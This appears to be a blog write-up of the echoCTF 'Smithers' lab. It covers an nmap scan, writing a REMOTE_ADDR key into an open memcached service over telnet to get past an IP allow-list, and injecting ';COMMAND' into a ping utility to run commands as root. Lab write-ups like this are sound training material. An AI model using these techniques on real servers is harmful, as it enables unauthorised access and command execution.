 ```yaml
---
layout: post
title: Smithers
feature-img: "assets/img/portfolio/smithers_site.png"
img: "assets/img/portfolio/smithers_site.png"
date: 06 Jun 2021
tags: [Lorem, Ipsum]
---
```



[smithers](https://echoctf.red/target/5)


machine description:

Like Smithers this server will serve you well only if you manage to enter it's memcached store.

---

### Enumartion


nmap -sV -sC -p- 10.0.100.142  

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-18 06:38 EDT
Nmap scan report for 10.0.100.142
Host is up (0.088s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE   VERSION

10888/tcp open  http      nginx
|_http-title: Network Tools

11211/tcp open  memcached Memcached 1.5.12 (uptime 488079 seconds)



## Enumartion

http://10.0.30.0:10888/

```
Network Utilities
These utilities are only available to authorized IP's only. 
If you need access to this page contact the administrator to update the ACL.
Server's version: 1.5.12
Visitor REMOTE_ADDR: 10.10.0.10
REMOTE_ADDR value not found on key.
You are not authorized to access this resource
```

### vulnerability

memcached server runing with full accsess and permisions


### Memcached  Enumartion

[Memcached](https://book.hacktricks.xyz/network-services-pentesting/11211-memcache)

we can understand that enter site is limite be ip and we see that REMOTE_ADDR value not found on key.

so lets try to add key with my ip address:

1. connecting using telnet 10.0.30.0 11211
2. add REMOTE_ADDR 0 0 10 
3. 10.10.0.10

```
$ telnet 10.0.30.0 11211
Trying 10.0.30.0...
Connected to 10.0.30.0.
Escape character is '^]'.
add REMOTE_ADDR 0 0 10
10.10.0.10
STORED

``` 

now we got access to other page with option to run ping


![](/assets/img/rce_smithers.png)

### Rce


lets try to run ping with ;COMMAND


![](/assets/img/Priv_sec_smithiers.png)


### Privilege escalation


![](/assets/img/Priv_sec_smithiers.png)
                                                        
as we can see the proceess is running as root.
